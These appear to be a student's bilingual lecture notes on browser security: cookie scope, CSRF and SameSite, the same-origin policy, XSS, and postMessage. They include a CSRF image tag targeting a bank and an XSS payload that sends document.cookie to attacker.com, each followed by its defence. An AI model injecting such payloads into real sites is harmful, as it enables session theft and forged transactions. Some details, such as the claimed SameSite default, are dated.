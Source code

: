 #### Cookie Policy

Continue last lecture

Don't relay on `Path` of cookie. not safe. can be bypassed using iframe.

Cookie Policy: cookie of a website can be accessed by same or more specific domains. so use a subdomain.

#### Problem with ambient authority, CSRF
Consider this html embedded in attacker.com

```html
<img src='https://bank.example.com/withdraw?from=bob&to=mallory&amount=1000'>
```
Browser includes bank.example.com cookies in all requests to bank.com, even though the request originated from attacker.com.

This is cross-site request forgery (CSRF). Use `SameSite` cookie attribute to prevent CSRF.
`SameSite=None`: default, always send cookie; `SameSite=Lax`: withhold cookies on subresource requests originating from other sites, allow them on top-level requests【如果第三方网站尝试通过图片、脚本或其他资源发起请求，Cookie 将不会被发送。当用户从外部网站导航到原始网站（例如，通过链接点击）时，浏览器会发送 Cookie】; 
`SameSite=Strict`: only send cookies if the request originates from the website that set the cookie.

```
Set-Cookie: key=value; Secure; HttpOnly; Path=/; SameSite=Lax
```
Site 的定义：https://web.dev/articles/samesite-cookies-explained


#### Same Origin Policy

Origin: protocol, hostname, port

> 同源策略是由浏览器负责执行的。浏览器在处理网页请求和执行网页脚本时，会检查请求的源（即协议、域名和端口号）是否与当前网页的源相同。如果不同，浏览器就会根据同源策略限制或阻止某些操作。防止恶意网站读取我的数据，但同源策略例外地不禁止加载静态资源如图片、脚本等。

For example, cross-origin fetch is prohibited. However, SOP is not enforced for certain web features. Some exceptions such as loading images, scripts from sites of different origins.

#### Bypass SOP, XSS, CSRF
同源策略禁止跨源读取数据。但是可以使用同源策略的例外盗取cookie.
Inject the following code to user input
```html
<svg onload="fetch('attacker.com?q='+document.cookie)" />
```
直接跨源fetch违背同源策略，但是加载图片是同源策略的例外，通过`onload`里fetch这样就绕过了同源策略限制。防御：设置cookie`httpOnly`属性禁止js获取cookie.

同源策略不禁止跨源提交表单。利用这一点进行CSRF。防御设置cookie的`sameSite`属性。

#### Cross-Origin Communication

Workaround idea 1: need a way round SOP to allow different origins to communiocate. `document.domain`. sites share a common top-level domain.
- For example, both `login.stanford.edu` and `axess.stanford.edu` set `document.domain = 'stanford.edu'` 
- This is bad. Because this allow anyone on stanford.edu to join the party. `attacker.stanford.edu` can also set `document.domain` to `stanford.edu` to become same origin with others.

Idea 2: Send messages from a parent page to a child iframe.
- Parent is allowed to navigate child iframes
- Child can poll for changes to fragement identifier
- Encode data in URL fragment identifiers

### The `PostMessage` cross-origin communication
- Send strings and aribitrarily complicated data cross-origin
- Useful features:
    - structured clone 算法是 postMessage API 中使用的一种算法，它允许你传递几乎任何类型的数据，包括但不限于原始数据类型（如数字、字符串、布尔值）、对象、数组等。这个算法能够递归地复制对象的属性，包括嵌套的对象和数组，从而创建一个与原始数据结构相同的副本。使用 structured clone 算法的优点是：安全性：由于 postMessage 只能传递克隆的数据副本，而不是原始数据的引用，因此可以防止潜在的数据污染或恶意操作。灵活性：可以传递复杂的数据结构，包括循环引用的对象。兼容性：structured clone 算法被现代浏览器广泛支持。然而，structured clone 也有其局限性，比如它不能克隆一些特殊的对象，如函数、Error 对象、DOM 节点等。
    - "Trnasferrable objects" allows transferring ownership of an object. It becomes unusuable in the context it was sent from.

